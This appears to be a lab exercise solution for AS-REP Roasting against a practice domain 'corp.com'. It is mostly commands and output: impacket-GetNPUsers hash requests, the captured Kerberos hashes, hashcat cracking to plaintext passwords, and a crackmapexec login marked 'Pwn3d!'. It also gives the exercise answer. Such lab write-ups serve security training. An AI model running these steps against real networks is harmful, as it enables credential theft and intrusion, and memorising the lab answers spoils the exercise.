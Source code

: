 Topics: AS-REP Roasting
Questions 2
Once VM Group 2 is started, the domain corp.com has been slightly modified. Use the techniques from this section to obtain another plaintext password by performing AS-REP Roasting and enter it as answer to this exercise.
# Answer
Summerland1

sudo impacket-GetNPUsers -dc-ip 192.168.163.70  -request -outputfile hashes.asreproast corp.com/pete
...
[*] Cannot authenticate pete, getting its TGT
[-] User pete doesn't have UF_DONT_REQUIRE_PREAUTH set
...

sudo impacket-GetNPUsers -dc-ip 192.168.163.70  -request -outputfile hashes.asreproast corp.com/jeff
...
dave  CN=Development Department,DC=corp,DC=com  2022-09-07 09:54:57.521205  2024-05-19 06:31:28.735065  0x410200 
jen   CN=Management Department,DC=corp,DC=com   2024-05-19 06:29:22.000677  2024-01-08 01:26:03.035484  0x410200 

$krb5asrep$23$dave@CORP.COM:c3bc5f9435d21cda1519c40aafc6387c$c2b035acadccae876a4aecb56734c7c4f923831c4707e5b1db1f77296e84e80f85ee6fece612d17b7368401b7af941364ab626d16651d029060e4d7b3fbe0fc93ec250bac9a119323e9bcef0ea7ad45676dc75f466ce424d5f3c1472a890f6d9f6de9d9ebac4aa6bb344cb95d187e6b72debb6a170cb95da9abe0b9b320461b7aa700ec7602943765b14cdafd730b0ca1c8c74d4156410823acddf7dc40f57d26b140b88533e61db8078dc297aefb61c39d82e428807b34887f4797d45ceac3ff3293aee6f964e5bed0a8033c45ba7cf8f44957a7d7578431a2b5bbda841346f84c960e6
$krb5asrep$23$jen@CORP.COM:4b501b39bacd165a6d7bdd6ceaa959d3$299691ef2dea5aa35109b5a8cdf64d30a5aaf961255248dc8c4a51b47f2d3ad070a8d12ccbfa8ef28d63213f6edc8d0b9a52f17edc04a96e00c90582fc3ea00e058cfcffdb4e8034714d6806bc35c0f44b82cfc6889ea28eb756b4cf42d08e4aa3d772410ba85aee3fd78f7e1e479d3015d10871447be7ad61c1ec3ec947db4af0bc72886287648c381073e8408017af50911afd43da35e137e2a63226bcffc6006eed1ebd30d15dab6b9b34090a80334f28af12bb9d23af9654a83402f30acca1bec944625c2a57a2a3a5811ba7e98486342b9e7bb15ea6fa56ead98696bdae13378df6
...

# dave user
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
Flowers1                                                
Session..........: hashcat
Status...........: Cracked
...

# jen user
...
Summerland1                                               
Session..........: hashcat
Status...........: Cracked
...

sudo crackmapexec smb 192.168.163.75 -u dave -p 'Flowers1' -d corp.com
SMB         192.168.163.75  445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
